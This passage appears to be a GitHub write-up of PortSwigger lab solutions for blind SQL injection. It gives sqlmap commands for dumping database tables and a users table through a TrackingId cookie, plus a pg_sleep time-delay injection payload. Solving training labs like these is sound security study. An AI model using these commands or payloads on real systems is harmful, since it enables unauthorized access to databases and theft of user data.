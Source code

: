 
### Solution
The solution is **extremely long** and it has not been copied, see the reference link.

## Blind SQL injection with conditional errors
### Reference: [PortSwigger: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)


### Quick Solution
In this case the Database is Oracle. It is impossible to use either ``ALL_TABLES`` and ``ALL_TAB_COLUMNS`` to retrieve Database content. For this reason there are two alternative:
- Infer the existence of a ``users`` table
- Blindly detect all the table in the ``SYSTEM`` Database

Here is the code for both of them: 
```
# Blindly detect all the tables in the SYSTEM database
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 --dump
# Dump the content of the users table
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 -T users --dump
```


### Solution
The solution is **extremely long** and it has not been copied, see the reference link.

## Blind SQL injection with time delays
### Reference: [PortSwigger: Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)


### Quick Solution
For this lab it is only needed to observe that the DB is vulnerable to SQL injection with time delay, see the solution in the next section.                          


### Solution
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie.
2. Modify the TrackingId cookie, changing it to: 
```
TrackingId=x'||pg_sleep(10)--
```
3. Submit the request and observe that the application takes 10 seconds to respond.

## Blind SQL injection with time delays and information retrieval
### Reference: [PortSwigger: Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-and-info-retrieval)
